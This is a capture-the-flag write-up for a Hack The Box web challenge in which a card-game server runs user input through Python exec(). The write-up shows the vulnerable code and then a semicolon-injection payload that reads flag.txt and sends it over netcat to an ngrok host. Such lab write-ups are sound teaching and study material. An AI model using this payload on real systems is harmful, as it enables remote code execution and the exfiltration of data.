



# Evaluation Deck (x solves)

## Challenge Description
Insecure usage of python exec() leads to RCE 

## Challenge Files
The web app is a card game where players have a health bar and running out of health
causes the game to end. 


Requests sent to the server look like this:



Take the users current health and update it according to the operator, "+" to increment and "-"
for reduction.

However the server compiles and exec() the code without any sanitisation.

```
result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

## Solution
Python allows multiple statements in one line by using a semicolon, ;.
```
print("hi");print("bye");print("person");

--> hi
    bye
    person
```

We will inject mallicious code into the operator variable as current_health and attack_power
are type casted to int and will return errors if a string is passed. 

### Payload 

;import os;os.system('cat ../flag.txt | nc 0.tcp.ap.ngrok.io 19937');



Here I am importing the os module to use system commands. I also set up a tcp listener on my box and exposed it to the public through ngrok. Waiting for a second grants us the flag.




## Flag
```
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```